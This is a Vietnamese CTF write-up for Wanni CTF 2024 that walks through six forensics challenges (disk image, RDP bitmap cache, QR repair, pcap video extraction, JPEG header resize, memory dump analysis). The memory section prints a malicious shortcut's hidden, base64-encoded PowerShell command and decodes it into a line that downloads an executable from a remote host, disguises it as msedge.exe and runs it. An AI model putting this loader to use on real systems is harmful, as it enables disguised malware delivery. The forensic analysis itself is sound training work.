


# Wanni CTF 2024
### I. Tiny_USB.
- chall này cho mình 1 file `.iso` nó giống như 1 file disk vậy , double click thì nó tạo 1 ổ đĩa ảo , bên trong nó có 1 ảnh có flag thui.


*`FLAG: FLAG{hey_i_just_bought_a_usb}`*

### II. Surveillance_of_sus
- Chall này mình chỉ nhận được 1 file `.bin` , dạng này khá lạ nên mình vứt nó vào `HxD` thì thấy header nó là `RDP8bmp`.

- Mình thử research thì kiếm được [tool này](https://github.com/ANSSI-FR/bmc-tools/blob/master/README.md)
- Mình xài tool extract file đó ra thì được 1 đống file ảnh `.bmp`.

- Mình sử dụng script ghép ảnh dựa theo tên từ 0 -> 649 thì được ảnh như này, mặc dù không đẹp lắm nhưng đủ để biết được flag.


*`FLAG: FLAG{RDP_is_useful_yipeee}`*

### III. codebreaker

- Chall khá bựa nó cho ta 1 QR code nhưng mà bị đánh dấu `X` dòi, cũng vừa khó vừa dễ ta chỉ cần xài photoshop hay gì đấy chỉnh độ sáng hay bất cứ thứ thì thì nó sẽ phai dần đi , cuối cùng mò thì được như này.

- Scan được thì có flag.

*`FLAG: FLAG{How_scan-dalous}`*

### IV. I_wanna_be_a_streamer.
- Chall này cho ta 1 file `.pcap` mình vào wireshark check thì thấy protolcol `H.264` khá lạ nên là có thử research thì mình biết rằng là protocol này chứa dữ liệu của 1 video và ta cần phải extract nó ra.

- Mò một hồi thì mình tìm thấy [tool này](https://github.com/volvet/h264extractor).
- Để xài được tool này ta cần phải biết loại mà nó sử dụng như ở đây là `96`.

- Ta vào `Edit -> preferences -> Protocol` chỉnh nó thành `96` sau đó mới xài được tool.

- Tool thì ta tải về vứt nó vào y như đường dẫn trong phần `about wireshark` là được.


- Nó chạy ra được đống này là bú ròi ó.

- Ta sẽ được 1 file như này `video_20240702-223939.264` nó không có format cụ thể nên ta sẽ sử dụng `ffmpeg` để convert nó sang mp4 hoặc ta có thể sử dụng `ffplay` để xem trực tiếp file video đó lun.
```
ffmpeg -i video_20240702-223939.264 -c copy output.mp4
```


*`FLAG: FLAG{Th4nk_y0u_f0r_W4tching}`*

### V. tiny_10px.

- Chall này cho ta 1 ảnh chỉ với 10x10 size, nhìn là biết ta cần phải thay đổi lại size nó rồi nhưng ảnh được cho là `.jpg` nếu là `.png` thì quá dễ có rất nhiều công cụ để thực hiện điều đó tuy nhiên với `.jpg` ta cần hiểu cái này.

- Với jpg ta có thể chỉnh size trực tiếp trong metadata , ta kiếm 2 byte `FF C0` là được.

- Ta chỉnh size lại thành `160x160` là xem được flag.


*`FLAG: FLAG{b1g_en0ugh}`*

### VI. mem_search.
- Chall này là 1 chall memo , cứ cơ bản xài volatility3 check pslist hoiii.

- KHi check thì mình thấy khá nhiều process `msedge.exe` nên mình có tải file history (lịch sử duyệt web) về để check xem có gì đáng ngờ không thì mình thấy có tải khá nhiều file có tên là `read_this_as_admin.ink`.

- Mình có thử xài url kia để tải về nhưng hong được nên mình thử filescan xem có file nào như thế không.
```
$ python3 vol.py -f "/mnt/d/FORENSICS/challenge/WanniCTF/mem_search/chal_mem_search/chal_mem_search.DUMP" windows.filescan | grep -i read_this_as_admin
0xcd88cebae1c0.0\Users\Mikka\Downloads\read_this_as_admin.download      216
0xcd88cebc26c0  \Users\Mikka\Desktop\read_this_as_admin.lnknload        216
```
- Quả nhiên là có ,mình dump nó về ,mở nó ra bằng notepad thì khá là lộn xộn nên mình thử cat nó ra thì có thể thấy được đại khái.

```
$ cat file.0xcd88cebc26c0.0xcd88ced4e5f0.DataSectionObject.read_this_as_admin.lnknload.dat 
�8P�O� �:i�+00�/C:\V1�X3�Windows@   ﾇOwH�X�J.��
  WindowsZ1�X{cSystem32B      ﾇOwH�X�J.k���erSystem32t1�O�IWindowsPowerShellT      ﾇO�I�X�H.�����WindowsPowerShell N1�X4�v1.0:  ﾇO�I�XDK.��'>�v1.0l2�PX@
                                                                                                                                                         powershell.exeN    �PX@
                                                                                                                                                                                �X�B.hi#��'powershell.exeh-gt$�C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exeC:\Windows\System32�-window hidden -noni -enc JAB1AD0AJwBoAHQAJwArACcAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAwAC4AMQA2ADoAOAAyADgAMgAvAEIANgA0AF8AZABlAGMAJwArACcAbwBkAGUAXwBSAGsAeABCAFIAMwB0AEUAWQBYAGwAMQBiAFYAOQAwAGEARwBsAHoAWAAnACsAJwAyAGwAegBYADMATgBsAFkAMwBKAGwAZABGADkAbQBhAFcAeABsAGYAUQAlADMAJwArACcARAAlADMARAAvAGMAaABhAGwAbABfAG0AZQBtAF8AcwBlACcAKwAnAGEAcgBjAGgALgBlACcAKwAnAHgAZQAnADsAJAB0AD0AJwBXAGEAbgAnACsAJwBpAFQAZQBtACcAKwAnAHAAJwA7AG0AawBkAGkAcgAgAC0AZgBvAHIAYwBlACAAJABlAG4AdgA6AFQATQBQAFwALgAuAFwAJAB0ADsAdAByAHkAewBpAHcAcgAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZABcAG0AcwBlAGQAZwBlAC4AZQB4AGUAOwAmACAAJABkAFwAbQBzAGUAZABnAGUALgBlAHgAZQA7AH0AYwBhAHQAYwBoAHsAfQA=C:\hack\shared\read_this.docx�%SystemDrive%\hack\shared\read_this.docx%SystemDrive%\hack\shared\read_this.docx�%�
                                                                                                                                                                                                                                                                                             �����Kp��1SPS�XF�L8C���&�m�q/S-1-5-21-1812296582-1250191020-2086791148-100191SPS�mD��pH�H@.�=x�hH�o�P
```
- Tuy nhiên thế ta sử dụng exiftool thì có thể nhìn thấy dễ dàng hơn.

```
-window hidden -noni -enc JAB1AD0AJwBoAHQAJwArACcAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAwAC4AMQA2ADoAOAAyADgAMgAvAEIANgA0AF8AZABlAGMAJwArACcAbwBkAGUAXwBSAGsAeABCAFIAMwB0AEUAWQBYAGwAMQBiAFYAOQAwAGEARwBsAHoAWAAnACsAJwAyAGwAegBYADMATgBsAFkAMwBKAGwAZABGADkAbQBhAFcAeABsAGYAUQAlADMAJwArACcARAAlADMARAAvAGMAaABhAGwAbABfAG0AZQBtAF8AcwBlACcAKwAnAGEAcgBjAGgALgBlACcAKwAnAHgAZQAnADsAJAB0AD0AJwBXAGEAbgAnACsAJwBpAFQAZQBtACcAKwAnAHAAJwA7AG0AawBkAGkAcgAgAC0AZgBvAHIAYwBlACAAJABlAG4AdgA6AFQATQBQAFwALgAuAFwAJAB0ADsAdAByAHkAewBpAHcAcgAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZABcAG0AcwBlAGQAZwBlAC4AZQB4AGUAOwAmACAAJABkAFwAbQBzAGUAZABnAGUALgBlAHgAZQA7AH0AYwBhAHQAYwBoAHsAfQA=
```
- decode base64 ta được đoạn code sau:
```
$ echo "JAB1AD0AJwBoAHQAJwArACcAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAwAC4AMQA2ADoAOAAyADgAMgAvAEIANgA0AF8AZABlAGMAJwArACcAbwBkAGUAXwBSAGsAeABCAFIAMwB0AEUAWQBYAGwAMQBiAFYAOQAwAGEARwBsAHoAWAAnACsAJwAyAGwAegBYADMATgBsAFkAMwBKAGwAZABGADkAbQBhAFcAeABsAGYAUQAlADMAJwArACcARAAlADMARAAvAGMAaABhAGwAbABfAG0AZQBtAF8AcwBlACcAKwAnAGEAcgBjAGgALgBlACcAKwAnAHgAZQAnADsAJAB0AD0AJwBXAGEAbgAnACsAJwBpAFQAZQBtACcAKwAnAHAAJwA7AG0AawBkAGkAcgAgAC0AZgBvAHIAYwBlACAAJABlAG4AdgA6AFQATQBQAFwALgAuAFwAJAB0ADsAdAByAHkAewBpAHcAcgAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZABcAG0AcwBlAGQAZwBlAC4AZQB4AGUAOwAmACAAJABkAFwAbQBzAGUAZABnAGUALgBlAHgAZQA7AH0AYwBhAHQAYwBoAHsAfQA=" | base64 -d

$u='ht'+'tp://192.168.0.16:8282/B64_dec'+'ode_RkxBR3tEYXl1bV90aGlzX'+'2lzX3NlY3JldF9maWxlfQ%3'+'D%3D/chall_mem_se'+'arch.e'+'xe';$t='Wan'+'iTem'+'p';mkdir -force $env:TMP\..\$t;try{iwr $u -OutFile $d\msedge.exe;& $d\msedge.exe;}catch{}
```
- Loại bỏ dấu '+' đi thì ta nhận ra có 1 đoạn base64 nữa decode nó ra thì ta có flag.
```
$u=http://192.168.0.16:8282/B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_search.exe;$t=WaniTemp;mkdir -force $env:TMP\..\$t;try{iwr $u -OutFile $d\msedge.exe;& $d\msedge.exe;}catch{}
```

```
└─$ echo "RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==" | base64 -d
FLAG{Dayum_this_is_secret_file}
```

*`FLAG: FLAG{Dayum_this_is_secret_file}`*